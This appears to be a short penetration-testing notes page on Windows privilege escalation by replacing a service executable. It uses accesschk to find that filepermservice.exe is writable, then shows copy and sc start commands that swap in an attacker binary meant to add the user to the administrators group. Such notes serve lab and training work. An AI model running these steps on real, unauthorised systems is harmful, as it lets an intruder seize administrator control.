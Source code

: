 # Executable Files

like the pervious example but we target`.exe` programs which run in background

### **Detection**

```powershell
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
```

![2025-07-06 14\_39\_08-Kali Linux - VMware Workstation.png](<../../../.gitbook/assets/2025 07 06_14_39_08 Kali_Linux_ _VMware_Workstation.png>)

we have a permission to edit on file call `filepermservice.exe` so we can replace it by our shell to add himself in admin group

***

### Exploitation

```powershell
copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
sc start filepermsvc
```

![2025-07-06 14\_43\_18-Kali Linux - VMware Workstation.png](<../../../.gitbook/assets/2025 07 06_14_43_18 Kali_Linux_ _VMware_Workstation.png>)
